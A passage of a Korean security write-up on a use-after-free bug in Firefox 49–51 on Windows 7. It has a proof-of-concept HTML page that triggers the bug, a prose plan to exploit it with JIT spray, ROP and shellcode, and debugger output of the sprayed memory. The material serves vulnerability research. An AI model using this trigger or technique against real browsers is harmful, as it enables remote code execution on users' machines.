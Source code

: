 ```html
    } 
      
    function handler() {
             if(cnt > 0) return;
             doc.body.appendChild(document.createElement("audio")).remove();      
             m(1024,1024);   //stress 
             ++cnt;
    }
    function testcase()
    {
	     doc = document.getElementById("t1").contentWindow.document;
	     doc.getElementsByTagName("*")[0].addEventListener("DOMSubtreeModified",handler,false); 
	     doc.getElementsByTagName("*")[0].style = "ANNNY";
             if(cnt > 0) {
               //should be free, get size and replace memory
	        setTimeout("location.reload();",3000);   //trigger uaf
             }
    }
  </script>
  <title>Firefox 49.0.2-51 Use After Free (Windows 7 x86)</title>
  </head>
  <body onload='testcase();'>
   <iframe src='about:blank' id='t1' width="100%"></iframe>
  </body>
</html>
```

## How to exploit?
크래시가 발생한 지점은 다음과 같다.
![crash](images/crash.png)
일반적인 use-after-free 취약점을 익스플로잇하려면 가장 먼저 arbitrary write으로 연결시켜야 한다. 이는 보통 크래시가 mov,add,inc 연산에서 발생하거나 type confusion을 트리거할 수 있을 경우 쉽게 연결이 가능한데, 이 러한 경우가 아니라 위와 같이 해제된 object의 vtable값을 참조하면서 크래시가 발생한 경우 arbitrary write으로 연결시키기 어렵다. write primitive를 얻은 이후에는 힙 영역에 할당된 object들의 길이 값을 덮어써서 leak으로 연결시키고, xul.dll의 base 주소를 알아내고 해당 라이브러리에 존재하는 ROP 가젯들을 조합하여 eip를 컨트롤하 면 된다. 혹은, kernel32.dll의 VirtualProtect() 함수를 호출하여 쉘코드가 할당된 힙 영역에 실행권한을 주고 fake object의 vtable을 쉘코드 주소롤 설정하여 직접적으로 원하는 명령어를 실행시키는 방법도 있다. 하지만, 위 와 같은 크래시의 경우 write primitive를 얻기 힘들기 때문에 다소 unreliable한 방법인 JIT spray를 사용하기로 하였다. 이는 컴파일 단계에서 코드를 생성하고 빌드하는 Just-In-Time 컴파일러의 특징을 이용한 익스플로잇 기 법인데, 말그대로 필요할 때 코드를 특정 페이지에 생성하고 실행해야하기 때문에, JIT 컴파일러가 사용하는 페이 지는 기본적으로 RWX여야 한다. 물론, 요즘은 JIT hardening 기법이 적용되어서 이를 이용해 익스플로잇 하는게 어려워졌지만, Firefox에선 여전히 동작한다. 실제로 50.0.2 버전에서 JIT spray를 수행한 결과 다음과 같이 고정 적인 페이지에 할당되는 것을 확인할 수 있었다.
```
0:000> s -d 0x20000000 0x28000000 0x3c909090
23c0003c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
23c1003c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
23c2003c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
23c3003c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
23c4003c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
23c5003c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
...
27fb003c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
27fc003c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
27fd003c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
27fe003c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d
27ff003c  3c909090 90c03335 30b0353c 64353c90  ...<53..<5.0.<5d

0:000> !vprot 27fb003c
```